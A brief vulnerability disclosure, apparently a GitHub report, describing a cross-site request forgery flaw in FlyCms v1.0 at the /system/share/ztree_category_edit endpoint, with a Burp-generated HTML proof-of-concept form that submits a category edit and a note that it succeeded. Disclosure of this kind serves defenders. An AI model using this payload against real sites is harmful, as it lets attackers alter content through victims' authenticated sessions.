


target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/share/ztree_category_edit


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/share/ztree_category_edit?id=1&name=%E7%A7%BB%E5%8A%A8%E5%BC%80%E5%8F%911" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```





Successed

